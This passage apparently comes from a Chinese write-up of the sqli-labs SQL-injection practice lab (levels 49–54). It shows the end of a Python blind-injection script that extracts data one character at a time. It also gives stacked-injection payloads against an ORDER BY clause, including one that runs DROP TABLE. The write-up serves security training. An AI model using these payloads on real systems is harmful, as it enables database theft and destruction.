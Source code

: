 ```python
    l = 32
    r = 126
    while l < r:
        mid = (l + r) // 2
        if blind_inject(url, i, mid, target=target):
            l = mid + 1
        else:
            r = mid

        # check end
        if l >= r:
            if not blind_inject(url, i, l, '=', target=target):
                end = 1
    if end:
        break
    res += chr(l)
    print(res)
```

### 49 ORDER BY Clause Blind based

同上 闭合改成单引号

### 50 ORDER BY Clause Stacked injection

mysql请求语句用的是`mysqli_multi_query`，可以堆叠注入

`1;create table test like users;%23`

`1;drop table test;%23`

### 51 ORDER BY Clause Stacked injection

单引号闭合

`1';create table test like users;%23`

`1';drop table test;%23`

### 52 ORDER BY Clause Stacked injection

无报错版本依葫芦画瓢

整型

### 53 ORDER BY Clause Stacked injection

无报错版本依葫芦画瓢

单引号闭合

## Challenges

### 54 Challengs-1
